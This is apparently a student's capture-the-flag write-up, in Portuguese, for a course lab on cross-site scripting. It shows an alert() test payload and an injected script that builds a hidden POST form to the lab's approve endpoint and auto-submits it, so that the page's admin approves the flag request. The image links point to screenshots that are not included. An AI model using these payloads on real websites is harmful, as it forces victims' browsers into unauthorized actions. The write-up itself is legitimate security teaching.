 Para realizar este ctf, teremos de trabalhar a partir desta página:

![Alt text](image-8.png)

A partir dessa página, apercebemo-nos que poderíamos testar se input que aí pediam era filtrado ou não. Para testar essa condição, decidimos criar uma função `alert()`, da seguinte maneira:

```
<script>alert("Teste");</script>
```

Obtendo este resultado:

![Alt text](image-10.png)

A seguir, colocamos este script...

```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/%7Binserir ID do pedido}/approve" role="form"><div class="submit">  <input type="submit" id="giveflag" value="Give the flag"></div></form><script>document.getElementById("giveflag").click();</script>
```

...no input da página e submetemos assim.

O resultado que nos dará será este:

![Alt text](image-6.png)

Voltamos atrás da página e visualizamos o código fonte desta, graças às funcionalidades do nosso browser e alteramos o url da página, adicionando ao request desta, o id inicial, o que nos dá este resultado.


![Alt text](image-7.png)


Ao vizualizar esta imagem é possível perceber que o id da nossa flag encontra-se presente.


![Alt text](image-9.png)